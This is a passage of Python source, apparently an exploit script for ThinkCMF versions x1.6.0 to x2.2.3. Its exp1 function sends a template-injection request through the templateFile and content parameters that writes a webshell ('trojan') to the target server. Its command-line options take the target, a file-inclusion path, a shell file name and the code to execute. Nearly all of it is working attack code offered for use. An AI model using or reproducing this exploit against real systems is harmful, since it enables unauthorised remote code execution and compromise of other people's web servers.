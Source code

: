 ```python
            print("没有找到匹配的内容")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def exp1(url, port, contain, execute):
    payload = f"/?a=fetch&templateFile=public/index&prefix=%27%27&content=%3Cphp%3Efile_put_contents(%27{contain}%27,{execute})%3C/php%3E"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1", "Connection": "close"}
    try:
        r = requests.get(url1, headers=headers, verify=False, timeout=5, allow_redirects=False)
        if r.status_code == 200:
            print(f"木马访问路径：{url}:{port}/{contain}")
        else:
            print("木马疑似为写入失败！")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
d888888P dP       oo          dP        a88888b. 8888ba.88ba   88888888b 
   88    88                   88       d8'   `88 88  `8b  `8b  88        
   88    88d888b. dP 88d888b. 88  .dP  88        88   88   88 a88aaaa    
   88    88'  `88 88 88'  `88 88888"   88        88   88   88  88        
   88    88    88 88 88    88 88  `8b. Y8.   .88 88   88   88  88        
   dP    dP    dP dP dP    dP dP   `YP  Y88888P' dP   dP   dP  dP        
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    print("")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    parser.add_argument("-d", dest="document", required=False, type=str, default=None,
                        help="Include file name")
    parser.add_argument("-c", dest="contain", required=False, default=None,
                        help="Trojan name (if selected, you must select the -e parameter to add the code to execute)")
    parser.add_argument("-e", dest="execute", required=False, default=None,
                        help="Executed command (must take -c argument and URL encoded code)")

    args = parser.parse_args()

    try:
        if args.contain and args.execute:
            exp1(args.url, args.port, args.contain, args.execute)
        elif args.document:
            exp(args.url, args.port, args.document)
        elif args.url:
            poc(args.url, args.port)
        else:
            parser.parse_args(['-h'])
```